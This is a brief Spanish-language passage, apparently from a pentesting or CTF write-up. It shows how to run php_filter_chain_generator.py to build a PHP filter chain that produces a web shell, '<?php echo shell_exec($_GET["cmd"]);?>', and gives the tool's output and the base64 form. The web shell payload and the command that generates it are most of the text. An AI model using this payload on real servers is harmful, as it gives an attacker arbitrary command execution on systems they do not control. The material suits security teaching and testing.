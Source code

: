 Si queremos por ejemplo crear un parametro llamado `cmd` que ejecute cualquier comando que le pongamos, seria de la siguiente forma...

```shell
$ python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
```

Info:

```
[+] The following gadget chain will generate the following code : <?php echo shell_exec($_GET["cmd"]);?> (base64 value: PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWyJjbWQiXSk7Pz4)
```
